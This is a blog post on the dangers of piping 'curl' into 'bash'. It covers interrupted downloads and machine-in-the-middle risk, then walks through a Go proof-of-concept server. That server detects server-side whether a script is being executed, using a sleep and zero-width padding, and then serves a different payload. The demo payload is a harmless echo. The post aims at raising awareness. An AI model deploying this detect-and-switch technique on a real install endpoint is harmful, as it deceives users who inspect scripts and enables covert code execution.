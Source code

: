 ```yaml
---
title: "The Dangers of curl | bash"
date: 2021-01-12T12:23:11Z
draft: false
toc: true
images:
tags:
  - golang
  - curl
  - bash
  - curlbash
  - cybersecurity
  - linux
---
```


I'm sure at some point or another we've all seen a software project that asks
you to installing it with a command like `curl https://install.example.com |
sudo bash`.

A few examples are [rustup](https://rustup.rs/),
[zerotier](https://github.com/zerotier/install.zerotier.com), and
[pyenv](https://github.com/pyenv/pyenv-installer).

_But why is it dangerous_ you ask? _Surely if [people on the internet advocate
the use of it](https://gist.github.com/btm/6700524) then it must fine?_ Well, it
depends what your definition of _fine_ is.

There are a few different issues with using `curl $URL | bash` that I want to
look at, two briefly and one in more detail.

From here on out I'll be using:

* `curl | bash` to refer to a command that downloads a file and sends the
  content via stdout to a shell (and example of a command like this being `curl
  https://install.example.com/ | sudo bash`)
* `$URL` to refer to the URL of the resource being being downloaded (in the
  previous example this would be `https://install.example.com/`)

## Possible Issues Scenarios

### 1. Interrupted Connections

When you `curl $URL | bash`, bash starts executing the script before the whole
of it was been downloaded. If you were to lose your connection to the server
before the script has finished downloading you may end up with half the script
having been executed and half of it not. This is a non-ideal situation that
could potentially leave your system in an unusable state (depending on the
script you were running).

### 2. Machine in the Middle (MitM)

A Machine in the Middle attack is when an attacker is in the middle on your
communication. This would allow them to modify the script as it is being
downloaded allowing them to run malicious commands on your machine.

A few ways to mitigate this are by:

1. Using TLS. Curl will throw an error if a website has invalid TLS
   certificates. This means that if the script you are piping into bash uses
   https then you know there isn't a MitM (unless the MitM has an TLS cert for
   the domain in question that is signed by a CA you trust, in which case you
   have a bigger issue). You can run `curl https://self-signed.badssl.com/` as
   an example of how curl handles invalid TLS certificates.
2. Viewing the script in your browser first. If you navigate to `$URL` in your
   web browser first you can inspect the script to make sure that you trust it's
   content. This would be a valid solution, but turns out to not be effective.
   I'll discuss why now.

### 3. curl | bash Detection

It turns out that because of how unix pipelines work, a webserver can detect if
you are piping the output of `curl` or `wget` into an shell like `bash`.

I tweeted a proof of concept for this earlier.

{{< tweet 1326239169711108099 >}}

This attack is the main focus of this blog post an is inspired by
[https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/](https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/)
which explains part of why this works but does not provide a proof of concept.
This was posted in 2016 and I haven't been able to find much else out this.

As mentioned in section 1, if the content being downloaded is over a certain
size then bash will start executing commands before the whole file has been
download. Curl will fill the buffer, bash will read and execute the commands,
curl will fetch more data from the server and fill the buffer again. This whole
process repeats until the whole script has been downloaded and executed by bash.

If bash is doing something time consuming (e.g. executing a `sleep` command)
then it will take longer before it empties the buffer and curl requests more of
the script. If the script is just being displayed (if you just `curl $URL` or if
you open `$URL` in a web browser) then there will be no delay as the `sleep`
command isn't being executed. We can detect this time difference on the server
the script is being download from.

I am going to quickly walk you through the Proof of Concept (PoC) I made in go.

Firstly I setup a simple go program that acts as an http server. It will listen
on port `:8080` and send requests to a function called `handler` (which I am
going to show you in the next step).

```go
package main

import (
  "fmt"
  "net/http"
  "strings"
  "time"
)

func main() {
  http.HandleFunc("/", handler)
  http.ListenAndServe(":8080", nil)
}
```

The handler function is relativly simple.

Firstly we create a payload that we will use to detect if the code being
download is being executed or just displayed/stored. This example sends a script
that outputs _Hello World!_, sleeps for 1 second and has a comment. This command
is then followed by the byte string `\xe2\x80\x8b` 1048576 times. This byte
string is a zero width character meaning that it won't be visible to the user if
the script is being sent to firefox or stdout unless they open it in something
like a hex editor.

This chars at the end are so long that they will fill the buffer more than once.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte("echo Hello World!\nsleep 1\n# A comment" + strings.Repeat("\xe2\x80\x8b", 1024*1024) + "\n")
}
```
We then define a malicious payload to send if the script is being executed and a
harmless payload to send if it is not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")
}
```

We can now set the response content type and status code, and send the detection
payload. However we won't end the request but instead start a timer. `res.Write`
is blocking meaning that the next line won't be executed until the whole of the
`detect_payload` has been requested by the client, and as it is longer than the
buffer if the code is being executed then bash will sleep before the rest of the
detect payload is requested. This means that when we measure the time that it
took for `res.Write` to run we can see if bash was executing the payload or not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
}
```

Now we simply see if we waited around for at least a second (the length of the
sleep) and if we did send the malicious payload.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
  if elapsed.Seconds() > 1 {
    fmt.Println("curl|bash detected. response time: ", elapsed)
    res.Write(malicious_payload)
  } else {
    fmt.Println("non curl|bash. response time: ", elapsed)
    res.Write(harmless_payload)
  }
}
```

This is a very simple PoC but you could easily make something more effective and
discrete. If the user is `curl | bash`-ing a large install script that is
larger than the buffer and has elements that take a while to execute, then you
wouldn't need any `sleep` commands or large amounts of hidden whitespace to make
this work.

## Conclusion

I'm not going to make a comment on if you should use `curl | bash` or not, that
is up to you and your threat model. However I think it is important that people
are aware that this sort of attack is in fact possible.
